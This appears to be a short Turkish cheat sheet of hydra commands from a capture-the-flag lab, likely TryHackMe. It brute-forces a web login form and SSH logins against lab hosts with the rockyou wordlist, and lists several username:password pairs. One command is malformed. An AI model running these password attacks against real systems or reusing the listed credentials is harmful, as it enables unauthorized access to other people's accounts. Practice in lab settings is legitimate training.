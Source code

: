 *** Login için BruteForce ***
```bash
hydra -L users.txt -P passwords.txt <HEDEF_IP> http-post-form "/login.php:username=^USER^&password=^PASS^:F=Hatalı Giriş" -V
```
*** ssh için dale ismi ile bruteforce ***

``` bash
hydra -l dale -P /usr/share/wordlists/rockyou.txt  ssh://team.thm
```
veya

``` bash
hydra -l dale -P /usr/share/wordlists/rockyou.txt  ssh://10.10.10.10
```
claire-r:Password1

chris-r:letmein

jill-v:sunshinel

barry-b:sandwich

``` bash
hydra -C file ssh//10.10.1.1 -T4 
```
